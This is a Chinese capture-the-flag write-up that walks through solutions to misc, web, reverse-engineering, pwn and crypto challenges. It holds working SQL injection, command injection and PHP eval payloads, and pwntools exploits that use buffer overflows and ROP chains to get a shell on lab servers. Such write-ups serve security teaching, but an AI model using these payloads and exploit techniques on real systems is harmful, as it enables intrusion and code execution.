# 朝阳群众writeup
大家好，我是莫得队友的TaQini，我只是个凑热闹朝阳群众。

## Misc

### EasyQR
手动修补QR code

p.s.PowerPoint真好用

### BabyNC
折半查找。大致确定范围，然后跑脚本即可。

``` python
#!/usr/bin/python
#__author__: TaQini
from pwn import *

context.log_level = 'debug'


#% nc 172.21.4.12 10022
#111111111111111111111111111
#too small
#try to give me a number!

#% nc 172.21.4.12 10022
#1111111111111111111111111111
# too big

max = 1111111111111111111111111111
min = 111111111111111111111111111
num = min

# bi-search
while(1):
    p = remote('172.21.4.12',10022)
    p.sendline(str(num))
    rec = p.recv()
    # print rec
    if rec == 'too small':
        min = num
        num = (max+min)/2
    elif rec == 'too big':
        max = num
        num = (max+min)/2
    else:
        print rec,num
        break

```

### 佛系青年
 - fo.txt伪加密

 - 将0009 改为 0000

 - 得到佛曰加密文本
 - 送去解密 http://www.keyfc.net/bbs/tools/tudoucode.aspx


### SXMgdGhpcyBiYXNlPw==
 - base64解密后发现是法文歌词?什么么鬼???
 - 提示是隐写，于是想到base64隐写
 - 跑脚本解密



- 脚本：`https://www.jianshu.com/p/48fe4dd3e5ce`

```python
#!/usr/bin/python
import sys

def get_base64_diff_value(s1, s2):
    base64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
    res = 0
    for i in xrange(len(s2)):
        if s1[i] != s2[i]:
            return abs(base64chars.index(s1[i]) - base64chars.index(s2[i]))
    return res

def solve_stego():
    with open(sys.argv[1], 'rb') as f:
        file_lines = f.readlines()
        bin_str = ''
        for line in file_lines:
            steg_line = line.replace('\n', '')
            norm_line = line.replace('\n', '').decode('base64').encode('base64').replace('\n', '')
            diff = get_base64_diff_value(steg_line, norm_line)
            print diff
            pads_num = steg_line.count('=')
            if diff:
                bin_str += bin(diff)[2:].zfill(pads_num * 2)
            else:
                bin_str += '0' * pads_num * 2
            print goflag(bin_str)


def goflag(bin_str):
    res_str = ''
    for i in xrange(0, len(bin_str), 8):
        res_str += chr(int(bin_str[i:i + 8], 2))
    return res_str


if __name__ == '__main__':
    solve_stego()

```

### gakki
 - 图片末尾有个压缩包，提取出来后发现有密码

 - 爆破之，密码为8864
 - 得到flag.txt，打开后是这么一坨

 - 进行字频统计

```python
#!/usr/bin/python
#__author__:TaQini

f = open('./flag.txt','r')
a = f.read()
f.close()

s = set(a) 
f = {}
for i in s:
	f[i]=a.count(i)

f2 = sorted(f.items(),key=lambda x:x[1],reverse=True)

out = ''
for i in f2:
	out += i[0]
	
print out

```

 - 得到flag

 

## Web

### 最强大脑

 - 算对1000次给flag，跑脚本

```python
#!/usr/bin/python3
#__author__:TaQini
import requests

# header
s=requests.session()                                     
s.headers['Accept']='text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8'
s.headers['Accept-Encoding']='gzip, deflate, br'
s.headers['Host']='url'                 
s.headers['Accept-Language']='zh-CN,zh;q=0.9,en;q=0.8,ja;q=0.7,ko;q=0.6'
s.headers['User-Agent']='zilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36'

url = 'http://172.21.4.12:3333/index.php'

# post
def p(n):                          
	num = n                
	res = s.post(url=url,data={'answer':n})
	res.encoding = res.apparent_encoding
	return res.text 

# calc
def suan(t):                       
	k = t.split('<br><br>')
	v = eval(k[2])      
	return v 

# init
t = p(2333)

for i in range(1001): 
	t = p(suan(t))
	print(t)

```
 - 第1001次给了flag


### BabySqli
 - 试出用户admin，输入`admin'`后报错界面有提示

 - 先base32解码后base64解码，得到一条sql语句

 - 试出字段数为3,根据题目提示passwd经md5加密

 - 构造sql语句
```  
select * from username where name='xxx'union select '1','admin','0ba7bc92fcd57e337ebb9e74308c811f'
```


### Ping Ping Ping
 - 试了一下，会执行ping + 文本框中的命令
 - 过滤了flag,空格,特殊符号


 - 空格使用$IFS代替
 - flag.php用ls出的文本替代（这里ls出来两个文件，用`ls|head -1`取首个文件即可）
 - 最后用cat竟读不出来文件??于是用tac代替之
 - payload如下
```
a=ls;b=head$IFS-1;c=tac$IFS;d=`$a|$b`;$c$d
# cat not work, use tac
```


### HardCore PHP
 - 访问`http://imagin.vip:10052/`得源码
```php
 <?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```
 - `eval($_GET['a'])`可以执行命令
 - 于是查看目录下有哪些文件
 - 找到了`aaa.txt`
 - 用`highlight_flie`读出来即是flag
 - payload
```
http://imagin.vip:10052/?a=$con=getcwd();echo $con;$filename = scandir($con);echo " <pre>";print_r($filename);highlight_file( "/var/www/html/aaa.txt");
```


### 禁止套娃
 - 提示githack
 - 得到源码`index.php`
```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
	if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
		if(';' === preg_replace('/[a-z|\-]+\((?R)?\)/', NULL, $_GET['exp'])) {
			if (!preg_match('/et|na|nt|info|dec|bin|hex|oct|pi|log/i', $code)) {
				// echo $_GET['exp'];
				eval($_GET['exp']);
			}
			else{
				die("还差一点哦！");
			}
		}
		else{
			die("再好好想想！");
		}
	}
	else{
		die("还想读flag，臭弟弟！");
	}
}
// highlight_file(__FILE__);
?>
```
 - 和上一题差不多，就是增加了字符过滤
 - `getcwd`,`current`用不了，查了一下，存在一个别名`pos()`，可以用`pos(localeconv())`来生成`.`，然后读目录下文件

 - 过滤了flag，可以通过reverse一下数组，再next一下指针绕过

 - payload
```
http://172.21.4.12:10031/?exp=print_r(highlight_file(next(array_reverse(scandir(pos(localeconv()))))));
```


## RE
### lucky guy
 - 简单的一道逆向


- flag由两部分组成


- 第一部分给出了

 

- 第二部分简单的算一下就能解出来(偶数位-1，奇数位-2)

 

 

### Simple CPP
 - 跟踪输入的字符串
 
 
 - 输入的字符串与`i_will_check_is_debug_or_not`按位异或

 - 异或后的字符串被截成4段:`i0`,`i1`,`i2`,`i3`
 - `i0`,`i1`,`i2`长度为8字节，`i3`为4字节其中最后一位是`\0`
 
 - 随后进行一系列的逻辑运算
 - 能得到几个等式：
   1. `i2 & ~i0 | i1 & i0 | i1 & i2 = ~i0 & i2 | 0xC00020130082C0C`
   2. `i2 & ~i0 = 0x11204161012`
   3. `0x3E3A4717373E7F1F ^ i3 = 0x3E3A4717050F791F`
   4. `0x8020717153E3013 = i2 & ~i1 & i0 | i2 & ( i1 & i0 | i1 & ~i0 | ~(i1 | i0)) = i2`
   5. `0x3E3A4717373E7F1F = i2 & ~i0 | i1 & i0 | i2 & ~i1 | i0 & ~i1 = i2 | i0`
 - 可以解出：
   1. `i0 = i2 | i0 - i2 & ~i0 = 0x3E3A4717373E7F1F - 0x11204161012`
   2. `i1` 解不出
   3. `i2 = 0x8020717153E3013`
   4. `i3 = 0x3E3A4717050F791F ^ 0x3E3A4717373E7F1F`
 - `i0`,`i1`,`i2`,`i3`分别与`i_will_check_is_debug_or_not`按位异或即可得到flag
 - 其中`i1`对应的flag第二部分题目给出了：`'e!P0or_a'`

```python
#/usr/bin/python
#__author__: TaQini

from pwn import *

i0 = 0x3E3A4717373E7F1F - 0x11204161012
i1 = 0x0 # unknow
i2 = 0x8020717153E3013
i3 = 0x3E3A4717373E7F1F ^ 0x3E3A4717050F791F # 0x32310600

# print hex(i0),hex(i2),hex(i3)
s0 = "i_will_check_is_debug_or_not"
s1 = p64(i0,endianness='big')+p64(i1,endianness='big')+p64(i2,endianness='big')+p32(i3,endianness='big') 

flag = ''
for i in range(len(s0)):
    if i<7 or i>15:
        flag += chr(ord(s0[i])^ord(s1[i]))
    know = 'e!P0or_a'
    if i==8:
        flag += know

print flag
```


 
 - 第四部分多了个`t`，也在提示中给出了

## Pwn

### fantasy
 - buffer overflow

 - shell


 - poc

``` python
#!/usr/bin/python
#__author__: TaQini
from pwn import *

# p = process('./fantasy')
p = remote('172.21.4.12',10101)
# context.log_level = 'debug'

len = 56

fantasy = 0x00400735
payload = 'A'*len+ p64(fantasy)

p.recvuntil('input your message\n')
# gdb.attach(p)
p.sendline(payload)

p.interactive()

```



### my_canary
 - 栈溢出，覆盖`my_canary`验证
 - 虽然Canary定义在堆中，无法修改无法泄漏

 - 但是验证操作时canary在栈中
 - canary指针: `rbp-16`(`read_buf+48`) 
 - 输入值: `rbp-8`(`read_buf+56`)
 - 覆盖canary：将`rbp-16`指针覆盖为内容已知的指针，在`rbp-8`处输入该内容

 - 如 `rbp-16` <- `0x0400ad0`, `rbp-8` <- `Now let'`

 - 成功绕过canary
 - 接下来看返回地址，在`read_buf+72`

 - 程序中给了`call system`,没给`binsh`
 - 所以第一个rop链要先leak libc
 - 用puts泄漏puts地址，然后去libc database查libc版本

 - p.s.其实也可以从pwn1的shell里直接读到libc版本...

 - 然后，第二个rop链利用程序自带`call ssytem` ，执行`system('/bin/sh')`即可


```python
#!/usr/bin/python
#__author__: TaQini
from pwn import *

# p = process('./my_cannary')
p = remote('172.21.4.12',10102)

# context.log_level = 'debug'

elf = ELF('./my_cannary')

len = 48
buf = 0x602670
s = 0x400ad0
ss = "Now let'"

main = 0x400998 # main

# system = elf.symbols['system']
prdi = 0x0000000000400a43 # : pop rdi ; ret

payload = "".ljust(48,"A") + p64(s) + ss + p64(0)

puts = elf.symbols['puts']
puts_got = elf.got['puts']

payload += p64(prdi) + p64(puts_got) + p64(puts) + p64(main)

log.info("payload1:"+payload)

p.recvuntil("Now let's begin\n")
# gdb.attach(p)#,"b *0x400937")
p.sendline(payload)

info = p.recv(6)

log.info(info)
log.info(hex(u64(info.ljust(8,'\0'))))

libc_puts = u64(info.split()[0].ljust(8,'\0'))
puts_offset = 0x06f690 # remote
#puts_offset = 0x83cc0 #local
binsh_offset = 0x18cd57 #0x1afb84 
#binsh_offset = 0x1afb84 # local

libc_binsh = libc_puts-puts_offset+binsh_offset

log.info('libc puts addr: '+hex(libc_puts))
log.info('libc binsh addr: '+hex(libc_binsh))

payload2 = "".ljust(48,"B") + p64(s) + ss + p64(0)
# payload2 += p64(0x4008b9)  #test
payload2 += p64(prdi) + p64(libc_binsh) + p64(0x4008be) + p64(main)

log.info("payload2:"+payload2)

p.recvuntil("Now let's begin\n")
# gdb.attach(p)
p.sendline(payload2)

p.interactive()

```

### blind note
 - 输入`66`给`puts_libc`地址

 - 每创建一个节点，指针加4字节

 - 创建30个节点即可覆盖返回地址
 - 其中第26个是canary，可通过`scanf('-')`跳过
 - 通过`scanf`覆盖返回地址，并向栈中写入`system`和`binsh`的地址即可

 - 需要注意`system`执行时`rsp`要对齐16字节，不然报错 (http://blog.eonew.cn/archives/958)

 - 执行`system`前，`rsp`%`16` = `8` 即可成功执行`system`

```python
#!/usr/bin/python
from pwn import *

# context.log_level = 'debug'

libc = ELF('../libc.so.6')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# p = process('./blind_note')
p = remote('172.21.4.12',10103)

# leak puts in libc
p.sendline('66')
p.recvuntil('id:')
info = p.recv(6)
puts_libc = u64(info.ljust(8,'\0'))
log.info('puts_libc = '+hex(puts_libc))
puts_offset = libc.symbols['puts']
system_offset = libc.symbols['system']
binsh_offset = libc.search('/bin/sh').next()
system_libc = puts_libc-puts_offset+system_offset
binsh_libc = puts_libc-puts_offset+binsh_offset
log.info('system_libc = '+hex(system_libc))
log.info('binsh_libc = '+hex(binsh_libc))

# gadget
prdi = 0x0000000000400c63 # pop rdi ; ret
ppr = 0x0000000000400c60 # pop r14 ; pop r15 ; ret
# stack overflow
for i in range(30):
	p.recvuntil('>\n')
	p.sendline('1')
	p.recvuntil('number\n')
	p.sendline('-')

# return address

# stack adjust align to 16
p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline(str(ppr))

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

# system('/bin/sh')
p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline(str(prdi))

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline('0')

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline(str(binsh_libc))

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline(str(binsh_libc>>32))

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
p.sendline(str(system_libc))

p.recvuntil('>\n')
p.sendline('1')
p.recvuntil('number\n')
# gdb.attach(p)
p.sendline(str(system_libc>>32))

p.recvuntil('>\n')
p.sendline('4')

p.interactive()

```

## Crypto
### CheckIn
 - base64 + rot47
 - `dikqTCpfRjA8fUBIMD5GNDkwMjNARkUwI0BFTg==`
 - `v)*L*_F0<}@H0>F49023@FE0#@EN`
 - `GXY{Y0u_kNow_much_about_Rot}`

### 变异凯撒
 - 百度一下`afZ_r9VYfScOeO_UL^RWUc`，发现是实验吧的原题
```python
s = "afZ_r9VYfScOeO_UL^RWUc"
res =""
j = 5
for i in s:
    res += chr(ord(i) + j)
    j += 1
print(res)
```
 - `flag{Caesar_variation}`
 - p.s.出题人好懒

### md5
 - md5: e00cf25ad42683b3df678c61f42c6bda
 - cmd5.com解密
 - 结果：admin1
